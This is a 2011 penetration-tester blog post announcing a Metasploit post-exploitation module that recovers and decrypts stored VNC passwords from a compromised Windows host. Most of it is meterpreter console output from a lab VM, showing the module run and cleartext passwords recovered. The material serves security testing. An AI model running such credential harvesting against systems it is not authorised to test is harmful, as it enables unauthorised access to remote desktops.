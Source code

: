 ---
author: mubix
comments: true
date: 2011-03-21 02:12:29+00:00
layout: post
title: Metasploit VNC Password Extraction
categories:
- vnc
- meterpreter
- scripting
---

[Chris Gates wrote a blog post](http://carnal0wnage.blogspot.com/2011/03/vnc-passwords-and-metasploit-and-des.html) about the 'getvncpw' meterpreter script. I ran into the same issue on Penetration Tests in the past but didn't know much about the wacked out version of DES that RFB (the VNC protocol) was using. Not being a fan of manually editing a binary and compiling each time I had a password to crack I wanted to find another way, but didn't get a chance to.

Yesterday I saw this ticket: [https://www.metasploit.com/redmine/issues/3183](https://www.metasploit.com/redmine/issues/3183) and thought to myself: "Thats definitely within my coding ability to contribute a patch for". After almost 15 hours of coding between 9 pm on Saturday and 8 pm on Sunday. It went far and beyond just adding in a bit of code to support UltraVNC.

changelog:

* Complete rewrite as a post module instead of a meterpreter script
* Passwords of less than 8 characters are correctly padded ([thanks jduck](https://www.metasploit.com/redmine/projects/framework/repository/revisions/12033))
* UltraVNC checks added
* TightVNC checks added for both VNC and it's control console
* Made it very simple to add new checks in either the registry or in a file
* Output is a bit more verbose (lets you know something is happening
* Reports authentication credentials found to database
* Identifies the port that VNC is running on as well

It isn't in the metasploit trunk so until/if if gets added you can get it here:

[enum_vnc_pw.rb](https://gist.github.com/mubix/8215705)

If you have a check, find it breaks for some reason or another, or just want to tell me that I suck, please leave a comment or email me.

Here it is in action against my VM with 3 different VNC servers on it (calling the post module in two separate ways) :

```    
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: XPBASELINEAdministrator
meterpreter > background
msf exploit(handler) > use post/windows/gather/enum_vnc_pw 
msf post(enum_vnc_pw) > set SESSION 1
SESSION => 1
msf post(enum_vnc_pw) > show options

Module options (post/windows/gather/enum_vnc_pw):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf post(enum_vnc_pw) > run

[*] Enumerating VNC passwords on XPBASELINE
[*] Checking UltraVNC...
[+] UltraVNC => A85B4C5976979DE93B => thisismy on port: 5900
[+] VIEW ONLY: UltraVNC => DE2C1BA7393F6708B3 => 111 on port: 5900
[*] Checking WinVNC3_HKLM...
[*] Checking WinVNC3_HKCU...
[*] Checking WinVNC3_HKLM_Default...
[*] Checking WinVNC3_HKCU_Default...
[*] Checking WinVNC_HKLM_Default...
[*] Checking WinVNC_HKCU_Default...
[*] Checking WinVNC4_HKLM...
[+] WinVNC4_HKLM => c777b2de337a91cf => mypasswo on port: 5900
[*] Checking WinVNC4_HKCU...
[*] Checking RealVNC_HKLM...
[*] Checking RealVNC_HKCU...
[*] Checking TightVNC_HKLM...
[+] TightVNC_HKLM => 7ebf1e76f732459f => authpass on port: 5900
[*] Checking TightVNC_HKLM_Control_pass...
[+] TightVNC_HKLM_Control_pass => f0299fd0e927cf2f => adminpas on port: 5900
[*] Post module execution completed

msf post(enum_vnc_pw) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > run post/windows/gather/enum_vnc_pw 

[*] Enumerating VNC passwords on XPBASELINE
[*] Checking UltraVNC...
[+] UltraVNC => A85B4C5976979DE93B => thisismy on port: 5900
[+] VIEW ONLY: UltraVNC => DE2C1BA7393F6708B3 => 111 on port: 5900
[*] Checking WinVNC3_HKLM...
[*] Checking WinVNC3_HKCU...
[*] Checking WinVNC3_HKLM_Default...
[*] Checking WinVNC3_HKCU_Default...
[*] Checking WinVNC_HKLM_Default...
[*] Checking WinVNC_HKCU_Default...
[*] Checking WinVNC4_HKLM...
[+] WinVNC4_HKLM => c777b2de337a91cf => mypasswo on port: 5900
[*] Checking WinVNC4_HKCU...
[*] Checking RealVNC_HKLM...
[*] Checking RealVNC_HKCU...
[*] Checking TightVNC_HKLM...
[+] TightVNC_HKLM => 7ebf1e76f732459f => authpass on port: 5900
[*] Checking TightVNC_HKLM_Control_pass...
[+] TightVNC_HKLM_Control_pass => f0299fd0e927cf2f => adminpas on port: 5900
meterpreter > 
```







  

